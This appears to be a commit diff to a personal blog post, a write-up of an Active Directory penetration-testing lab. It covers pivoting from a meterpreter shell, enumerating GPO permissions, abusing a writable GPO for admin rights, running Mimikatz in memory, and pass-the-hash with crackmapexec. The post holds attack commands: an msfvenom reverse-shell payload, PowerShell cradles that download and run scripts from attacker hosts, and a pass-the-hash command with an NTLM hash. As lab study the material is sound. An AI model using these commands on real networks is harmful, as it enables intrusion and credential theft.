

Before and after one commit to braaaax/braaaax.github.io, a Jekyll site: the page built from _posts/2018-3-26-lky-labs.md, in a window 1280 px wide and 1400 px high, scrolled down 14822 px. Shown: the whole window, without its empty margins (248-1034 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
updated site

````diff
--- a/_posts/2018-3-26-lky-labs.md
+++ b/_posts/2018-3-26-lky-labs.md
@@ -129,39 +129,19 @@
 
 Once we've gotten our meterpreter shell. We can create a listener with empire and execute it with msf via the load_powershell module. Moving to empire is not necessary though it's nice to be able to do.
 
-Going from msf to empire (via Chryzsh):
-In Empire:
-create a default http listener named "http"
-*  uselistener http
-*  set Host 10.7.253.10
-*  set Port 4444
-*  execute
-
-create copy launcher, created w/o base64
-*  back
-*  usestager multi/launcher
-*  set Base64 false
-*  generate
-
-In MSF:
-*  load powershell
-*  powershell_shell
-*  paste listener and execute await agent in empire
-
-
 
 Either via empire or by importing the PowerView.ps1 module into your msf powershell_shell, we can enumere the domain. Let's take a look at the boxes in the domain.
 
 
 ComputerName
-*  DC01
-*  WS03
-*  FS01
-*  MX01
-*  WEB01
-*  WS05
-*  RDS02
-*  SQL01
+*  DC01  - 10.8.14.10 - Domain Controller (Promised Land)
+*  WS03  - 10.8.14.17
+*  FS01  - 10.8.14.11
+*  MX01  - 10.8.14.12
+*  WEB01 - 10.8.14.15
+*  WS05  - 10.8.14.16
+*  RDS02 - 10.7.12.12 - remote desktop
+*  SQL01 - 10.8.14.14 - sql server
 
 
 
@@ -199,6 +176,7 @@
 
 
 Success. As system on SQL01 let's create a rat with msfvenom (`msfvenom -p windows/shell/reverse_tcp lhost=10.8.254.10 lport=4444 -f exe -o callbrax.exe`) and get a meterpreter shell. Meterpreter and incognito make it trivial to use token impersonation to spawn a shell as a user. We see BDavis is a user on the box, he's our target.
+
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-steal-token-01.png)
 
@@ -211,14 +189,11 @@
 
 
 GPO Enumeration:
-
-We enumerate the GPO looking for misconfigurations. We find that
+Group Policy is a powerful administrative feature in Active Directory management. They are applied not to groups but to OUs, Organizational Units, Active Directory containers or folders into which can be placed users, groups, computers and other organizational units. We enumerate GPOs looking for misconfigurations.
 
 ```powershell
 PS > Get-NetGPO
-
 ...
-
 flags                    : 0
 name                     : {2259E5B0-3B49-4704-98BB-5A9581B54E8E}
 gpcmachineextensionnames : [{00000000-0000-0000-0000-000000000000}{79F92669-4224-476C-9C5C-6EFB4D87DF4A}][{17D89FEC-5C4
@@ -242,15 +217,10 @@
 objectcategory           : CN=Group-Policy-Container,CN=Schema,CN=Configuration,DC=lab,DC=local
 
 ...
-```
 
-We find that Server Admins have WriteProperty
-
-```powershell
 PS > Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
 
 ...
-
 InheritedObjectType   : All
 ObjectDN              : CN={2259E5B0-3B49-4704-98BB-5A9581B54E8E},CN=Policies,CN=System,DC=lab,DC=local
 ObjectType            : All
@@ -266,43 +236,12 @@
 
 ...
 ```
-
-Inspect the Mailserver:
+I've abridged the output to highlight the misconfiguration with the Mailserver-config. "Server Admins" have WriteProperty on the GPO means that a member of the group and change the GPO and dictate access to the devices in the OU the GPO controls. Which machines are in the OU that this GPO is applied to?
 
 ```powershell
 PS > Get-NetGPO -DisplayName MailServer-Config | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
 
 ...
-
-InheritedObjectType   : All
-ObjectDN              : CN={2259E5B0-3B49-4704-98BB-5A9581B54E8E},CN=Policies,CN=System,DC=lab,DC=local
-ObjectType            : All
-IdentityReference     : NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERS
-IsInherited           : False
-ActiveDirectoryRights : GenericRead
-PropagationFlags      : None
-ObjectFlags           : None
-InheritanceFlags      : ContainerInherit
-InheritanceType       : All
-AccessControlType     : Allow
-ObjectSID             :
-
-
-InheritedObjectType   : All
-ObjectDN              : CN={2259E5B0-3B49-4704-98BB-5A9581B54E8E},CN=Policies,CN=System,DC=lab,DC=local
-ObjectType            : All
-IdentityReference     : NT AUTHORITY\SYSTEM
-IsInherited           : False
-ActiveDirectoryRights : CreateChild, DeleteChild, Self, WriteProperty, DeleteTree, Delete, GenericRead, WriteDacl,
-                        WriteOwner
-PropagationFlags      : None
-ObjectFlags           : None
-InheritanceFlags      : ContainerInherit
-InheritanceType       : All
-AccessControlType     : Allow
-ObjectSID             :
-
-
 InheritedObjectType   : All
 ObjectDN              : CN={2259E5B0-3B49-4704-98BB-5A9581B54E8E},CN=Policies,CN=System,DC=lab,DC=local
 ObjectType            : All
@@ -315,24 +254,17 @@
 InheritanceType       : All
 AccessControlType     : Allow
 ObjectSID             :
-
 ...
 
-
-```
-
-
-Resolve this GPO to a computer on the domain:
-
-```powershell
 PS > Get-NetOU -GUID "{2259E5B0-3B49-4704-98BB-5A9581B54E8E}" | %{Get-NetComputer -ADSpath $_}
 MX01.lab.local
 ```
 
-Add "Server Admins" to the below file to give BDavis Administrator status on MX01.
+Replace BUILTIN\Administrators "Server Admins" to the Member name variable of the GPO. And update the GPO. We use -force so theat the update doesn't take 90 minutes. When its complete we'll have granted BDavis admin rights on MX01.
 
 ```powershell
 PS > type "\\lab.local\sysvol\lab.local\Policies\{2259E5B0-3B49-4704-98BB-5A9581B54E8E}\MACHINE\Preferences\Groups\Groups.xml"
+
 <?xml version="1.0" encoding="utf-8"?>
 <Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><Group clsid="{6D4A79E4-529C-4481-ABD0-F5BD7EA93BA7}" name="Administrators (built-in)" image="2" changed="2018-03-24 12:21:33" uid="{2E4B16DC-E5CA-4509-AB6D-5A6597E12936}"><Properties action="U" newName="" description="" deleteAllUsers="0" deleteAllGroups="0" removeAccounts="0" groupSid="S-1-5-32-544" groupName="Administrators (built-in)"><Members><Member name="Server Admins" action="ADD" sid=""/></Members></Properties></Group>
 </Groups>
@@ -341,22 +273,20 @@
 ```
 
 
-Since BDavis is admin on MX01 we can run Mimikatz on the Box and discover the credentials of BRoss who is Domain Admin.Add `Invoke-Mimikatz` to the bottom of my copy of Invoke-Mimikatz.ps1 I serve the file with python's SimpleHTTPServer and execute it from memory on MX01:
+Since BDavis is now admin on MX01 we can run Mimikatz on the Box and discover the credentials of BRoss, Domain Admin, and user. By adding Invoke-Mimikatz to the bottom of Invoke-Mimikatz.ps1 I can serve the file with python's SimpleHTTPServer and execute it from memory on MX01.
+
 
 ```powershell
 Invoke-Command -ComputerName MX01 -ScriptBlock {IEX (New-Object Net.WebClient).DownloadString('http://10.8.254.10/Invoke-Invoke-Mimikatz.ps1')}
 ```
 
-
-We get NTLM hashes for BRoss, who is a Domain Admin. With this info we are able to use the Ross account to add us to net users and Domain Admins
-We use cme to expoit the hashes and get a shell. We use the same methodology:
+We get NTLM hashes for BRoss, who is a Domain Admin. With this info we are able to use the Ross account to add us to net users and Domain Admins and use cme to expoit the hashes and get a shell using the same methodology:
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-cme-login.png)
 
 ```bash
 cme smb 10.8.14.10 -u BRoss -H '49a074a39dd0651f647e765c2cc794c7' -X 'IEX (New-Object Net.WebClient).DownloadString("http://10.7.253.6/Invoke-PowerShellTcpOneLine.ps1")'
 ```
-
 
 Lastly, As BRoss I add myself to all the good places:
 
@@ -369,4 +299,4 @@
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-admin-powershell.png)
 
 
-Now on to the second Domain,  lky.local  in part 2.
+Now on to the second Domain,  lky.local,  in part 2.
````
Also changed, not shown: other parts of _posts/2018-3-26-lky-labs.md (+0 -3 lines).
